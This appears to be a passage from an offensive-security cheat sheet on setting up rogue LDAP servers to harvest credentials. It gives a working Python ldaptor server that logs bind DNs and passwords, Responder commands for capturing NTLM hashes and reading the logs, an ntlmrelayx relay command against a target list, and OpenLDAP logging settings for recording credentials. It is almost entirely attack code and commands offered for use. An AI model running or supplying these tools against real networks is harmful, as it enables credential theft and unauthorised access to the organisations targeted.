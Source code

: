 ### Example Python Rogue LDAP Server

```python
from twisted.internet import reactor, defer
from twisted.internet.protocol import ServerFactory
from ldaptor.protocols.ldap import ldaperrors
from ldaptor.protocols.ldap.ldapserver import LDAPServer

class LoggingLDAPServer(LDAPServer):
    def handle_bind_request(self, request, controls, reply):
        print(f"Bind Request: {request.auth}")
        print(f"Received credentials - DN: {request.dn}, Password: {request.auth}")
        return defer.succeed(None)

if __name__ == "__main__":
    factory = ServerFactory.forProtocol(LoggingLDAPServer)
    reactor.listenTCP(389, factory)
    print("LDAP server running on port 389")
    reactor.run()
```

## Hosting a Rogue LDAP Server

A more comprehensive approach to capturing credentials via fake LDAP services.

### Using Responder

```bash
# Start Responder to capture credentials
sudo responder -I eth0 -w -v

# Check captured hashes
cat /usr/share/responder/logs/NTLM-*
```

### Using ntlmrelayx for LDAP Server

```bash
# Start ntlmrelayx in LDAP server mode
ntlmrelayx.py -tf targets.txt -l /tmp/ntlmrelay -smb2support -of hashes.txt
```

### LDAP Server with OpenLDAP

```bash
# Install and configure OpenLDAP
apt install slapd ldap-utils
dpkg-reconfigure slapd

# Configure slapd for logging credentials
vim /etc/ldap/slapd.conf
# Add: loglevel 256
```
